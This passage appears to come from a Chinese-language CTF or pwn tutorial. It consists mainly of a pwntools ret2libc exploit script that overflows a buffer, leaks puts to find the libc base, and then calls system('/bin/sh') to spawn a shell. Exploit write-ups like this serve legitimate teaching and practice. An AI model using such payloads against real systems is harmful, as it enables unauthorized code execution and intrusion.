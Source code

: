 ```python
ret = 0x000000000040101A

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

下图就是栈帧的变化过程：
